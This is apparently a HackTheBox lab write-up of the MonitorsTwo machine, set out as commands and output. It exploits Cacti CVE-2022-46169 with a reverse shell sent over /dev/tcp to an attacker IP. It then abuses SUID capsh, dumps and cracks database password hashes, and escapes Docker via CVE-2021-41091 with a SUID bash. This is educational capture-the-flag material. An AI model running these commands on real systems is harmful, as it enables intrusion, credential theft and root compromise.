




## Enumeration
Initial nmap:
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-04-30 10:18 EDT
Nmap scan report for 10.10.11.211
Host is up (0.032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.68 seconds
```

Visiting the website, the default page has a login box, with a reference to The Cacti Group:



Using directory fuzzing, we see can see more info on the backend server by viewing the changelog:
```
$ feroxbuster -u http://10.10.11.211/                                                                          

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.11.211/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
<...SNIP...>
200      GET        0l        0w   254887c http://10.10.11.211/CHANGELOG
<...SNIP...>
```

The changelog also tells us that this is for Cacti version 1.2.22, which was seen at the footer of the login page.



A quick google search shows that cacti 1.2.22 has [a remote command execution vulnerability.](https://nvd.nist.gov/vuln/detail/cve-2022-46169) Utilizing this CVE, we can have remote code execution.
## Foothold
### Utilizing CVE 2022-46169

POC code obtained from [this github repository](https://github.com/sAsPeCt488/CVE-2022-46169)
Testing the POC with a curl command:
```
$ python poc.py -c 'curl 10.10.14.139' http://10.10.11.211
```

On my listener server, I see a hit:
```
$ nc -nvlp 80  
listening on [any] 80 ...
connect to [10.10.14.139] from (UNKNOWN) [10.10.11.211] 39370
GET / HTTP/1.1
Host: 10.10.14.139
User-Agent: curl/7.74.0
Accept: */*
```

Now we can go ahead and try a reverse shell payload:
```
$ python poc.py -c "bash -c 'bash -i >& /dev/tcp/10.10.14.139/8888 0>&1'" http://10.10.11.211
[*] Trying for 1 - 100 host ids
```

Meanwhile on my listener:
```
$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.14.139] from (UNKNOWN) [10.10.11.211] 58858
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$ 
```

### Enumerating docker container

Looking at SUID privileges, we see a very dangerous SUID set in `capsh`:
```
www-data@50bca5e748b0:/$ find / -perm /4000 2> /dev/null
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/sbin/capsh
/bin/mount
/bin/umount
/bin/su
```
[gtfobins](https://gtfobins.github.io/gtfobins/capsh/) covers how we might abuse this setting to elevate our privileges to root level:



By abusing this 2nd command we become the root user. However, there is something strange about this filesystem.
```
www-data@50bca5e748b0:/$ capsh --gid=0 --uid=0 --
root@50bca5e748b0:/# 
```

There are no home folders, and root has no flag as well:
```
root@50bca5e748b0:/# ls -al /home/
total 8
drwxr-xr-x 2 root root 4096 Mar 22 13:21 .
drwxr-xr-x 1 root root 4096 Mar 21 10:49 ..
root@50bca5e748b0:/# ls -al /root/
total 16
drwx------ 1 root root 4096 Mar 21 10:50 .
drwxr-xr-x 1 root root 4096 Mar 21 10:49 ..
lrwxrwxrwx 1 root root    9 Jan  9  2023 .bash_history -> /dev/null
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
lrwxrwxrwx 1 root root    9 Mar 21 10:50 .mysql_history -> /dev/null
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
```

Enumerating the file system some more shows that this is a docker container:
```
root@50bca5e748b0:/# ls -al
total 84
drwxr-xr-x   1 root root 4096 Mar 21 10:49 .
drwxr-xr-x   1 root root 4096 Mar 21 10:49 ..
-rwxr-xr-x   1 root root    0 Mar 21 10:49 .dockerenv
drwxr-xr-x   1 root root 4096 Mar 22 13:21 bin
drwxr-xr-x   2 root root 4096 Mar 22 13:21 boot
drwxr-xr-x   5 root root  340 Apr 30 22:55 dev
-rw-r--r--   1 root root  648 Jan  5  2023 entrypoint.sh
```
in the base directory `/`, we see a `.dockerenv` file, as well as an unusual `entrypoint.sh`.
```
root@50bca5e748b0:/# cat entrypoint.sh 
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```
This script is attaching to the mysql database, and updating some settings. Let's see if we can attach to the database in the same fashion.

### Connecting to mysql database

```
root@50bca5e748b0:/# mysql --host=db --user=root --password=root cacti
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 46
Server version: 5.7.40 MySQL Community Server (GPL)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [cacti]> show tables;
+-------------------------------------+
| Tables_in_cacti                     |
+-------------------------------------+
| aggregate_graph_templates           |
| aggregate_graph_templates_graph     |
| aggregate_graph_templates_item      |
<...SNIP...>
```
Within the database, there is an interesting table `user_auth`. For simplicity, I show only username and password:
```
MySQL [cacti]> select username, password from user_auth;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
| guest    | 43e9a4ab75570f5b                                             |
| marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |
+----------+--------------------------------------------------------------+
3 rows in set (0.001 sec)
```
In addition to a probably default admin and guest credential, we see a different user marcus.
Submitting the hash to a rainbow table does not generate a hit.



Using hashcat, we can crack this:
```
$ hashcat -m 3200 '$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C' /usr/share/wordlists/rockyou.txt
hashcat (v6.2.5) starting
<...SNIP...>
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70Jonsd...hFYK4C
Time.Started.....: Sun Apr  30 22:37:08 2023 (47 secs)
Time.Estimated...: Sun Apr  30 22:37:55 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      183 H/s (7.49ms) @ Accel:16 Loops:8 Thr:11 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 8624/14344384 (0.06%)
Rejected.........: 0/8624 (0.00%)
Restore.Point....: 8448/14344384 (0.06%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1016-1024
Candidate.Engine.: Device Generator
Candidates.#1....: allahuakbar -> johnmark
Hardware.Mon.#1..: Temp: 65c Fan: 34% Util:100% Core:1316MHz Mem:3004MHz Bus:16
```

### Escaping the docker container

We have a successful crack as `marcus:funkymonkey`. However, checking our shell's /etc/passwd shows that no user marcus currently exists:
```
root@50bca5e748b0:/# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
root@50bca5e748b0:/# 
```
This is because in this docker container, the contents are isolated from the host system. However with ssh open, we can use this entrypoint if marcus is a legitimate user on the main system:
```
$ ssh marcus@10.10.11.211 
The authenticity of host '10.10.11.211 (10.10.11.211)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.211' (ED25519) to the list of known hosts.
marcus@10.10.11.211's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)

<...SNIP...>

You have mail.
Last login: Thu Mar 23 10:12:28 2023 from 10.10.14.40
marcus@monitorstwo:~$ 

```

## Privilege Escalation
### Finding system vulnerabilities discussed in mail
We successfully login, and note that we are told we have some mail. For HackTheBox systems, this is usually no coincidence, so let's check the mail contents first.
```
marcus@monitorstwo:~$ cat /var/mail/marcus 
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```

We are detailed 3 CVEs that the box is vulnerable to, at least once this mail letter has been sent. We can do quick checks to see if any of these have been remediated in our box:
Checking kernel version (CVE-2021-33033)
```
marcus@monitorstwo:~$ uname -a
Linux monitorstwo 5.4.0-147-generic #164-Ubuntu SMP Tue Mar 21 14:23:17 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```
Our version was compiled in March 2023, while the CVE is listed with the year 2021. This kernel version will likely not be vulnerable to CVE-2021-33033.

CVE-2020-25706 is related to cacti version 1.2.13. Recall on the login page as well as the CHANGELOG, we saw our cacti version at the higher 1.2.22, meaning this is not a valid attack route.

Checking docker version(CVE-2021-41091)
```
marcus@monitorstwo:~$ docker version
Client:
 Version:           20.10.5+dfsg1
 API version:       1.41
 Go version:        go1.15.9
 Git commit:        55c4c88
 Built:             Wed Aug  4 19:55:57 2021
 OS/Arch:           linux/amd64
 Context:           default
 Experimental:      true
Got permission denied while trying to connect to the Docker daemon socket at unix:///var/run/docker.sock: Get "http://%2Fvar%2Frun%2Fdocker.sock/v1.24/version": dial unix /var/run/docker.sock: connect: permission denied
```
The docker version is old, meaning CVE-2021-41091 is a potential target.

### Abusing CVE-2021-41091

We can get more information about CVE-2021-41091 [here, by the person who discovered the bug](https://www.cyberark.com/resources/threat-research-blog/how-docker-made-me-more-capable-and-the-host-less-secure). This exploit takes advantage that user id's within docker containers and outside the docker containers are shared. So we can create a file with a user inside the docker container, and when accessing the file from outside the docker container, the user id will be retained. This characteristic is normal for linux, but what is not normal is a regular user being able to enter the docker container's filesystem.
This is ideal for our situation, where we control root from inside the container. The workflow will look something like this:

- As root within docker, create a `bash` binary with SUID binary set. Any user can run this as root, and get a root bash session.
- As marcus outside the container, find the container location in the file system
- As marcus, access the bash binary. Because this SUID binary was made with user ID 0, it will still be treated as such, meaning the system's root user.
- As marcus, execute the SUID binary and obtain a root shell escaped from the docker session
Using `findmnt` to locate docker filesystems
```
marcus@monitorstwo:~$ findmnt
TARGET                                SOURCE     FSTYPE     OPTIONS
/                                     /dev/sda2  ext4       rw,relatime
├─/sys                                sysfs      sysfs      rw,nosuid,nodev,noexec,relatime
│ ├─/sys/kernel/security              securityfs securityfs rw,nosuid,nodev,noexec,relatime

<...SNIP...>

├─/run                                tmpfs      tmpfs      rw,nosuid,nodev,noexec,relatime,size=402608k,mode=755
│ ├─/run/lock                         tmpfs      tmpfs      rw,nosuid,nodev,noexec,relatime,size=5120k
│ ├─/run/docker/netns/2a35f1c292bd    nsfs[net:[4026532597]]
│ │                                              nsfs       rw
│ ├─/run/user/1000                    tmpfs      tmpfs      rw,nosuid,nodev,relatime,size=402608k,mode=700,uid=1000,gid=1
│ └─/run/docker/netns/22acd79d4ced    nsfs[net:[4026532659]]
│                                                nsfs       rw
├─/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
│                                     overlay    overlay    rw,relatime,lowerdir=/var/lib/docker/overlay2/l/756FTPFO4AE7H
├─/var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
│                                     shm        tmpfs      rw,nosuid,nodev,noexec,relatime,size=65536k
├─/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
│                                     overlay    overlay    rw,relatime,lowerdir=/var/lib/docker/overlay2/l/4Z77R4WYM6X4B
└─/var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
                                      shm        tmpfs      rw,nosuid,nodev,noexec,relatime,size=65536k
```
There are several docker files it looks like, and we want to know which is ours. To make it a little easier, I placed `test` in the base directory:
```
root@50bca5e748b0:/# touch test
root@50bca5e748b0:/# ls
bin   dev            etc   lib    media  opt   root  sbin  sys   tmp  var
boot  entrypoint.sh  home  lib64  mnt    proc  run   srv   test  usr
```
Now we can view it when we access the correct container:
```
marcus@monitorstwo:~$ ls /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
bin   dev            etc   lib    media  opt   root  sbin  sys   tmp  var
boot  entrypoint.sh  home  lib64  mnt    proc  run   srv   test  usr
```
Copying and setting SUID on container bash:
```
root@50bca5e748b0:/# cp /bin/bash .    
root@50bca5e748b0:/# chmod +s ./bash
```
Seeing the privileges set from marcus:
```
marcus@monitorstwo:~$ ls /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged -al
total 1304
drwxr-xr-x 1 root root    4096 Apr 30 03:21 .
drwx-----x 5 root root    4096 Apr 30 22:55 ..
-rwsr-sr-x 1 root root 1234376 Apr 30 03:22 bash
<...SNIP...>
```
Running the SUID bash from marcus
```
marcus@monitorstwo:~$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bash -p
bash-5.1# whoami
root
bash-5.1# pwd
/home/marcus
```
We can see the privilege escalation was successful, we are now root and still outside of the docker container!

## Reflection
While this box stayed true to the Easy ranking it achieved, I appreciated seeing a docker exploit such as this. Linux's UID handling and ownership is something I find to be quite interesting, especially in cases like these, where the permissions of a root user on a restricted environment can still be abused outside the scope. The article on CVE-2021-41091 was a blast to read, and I'm glad I know more than before!
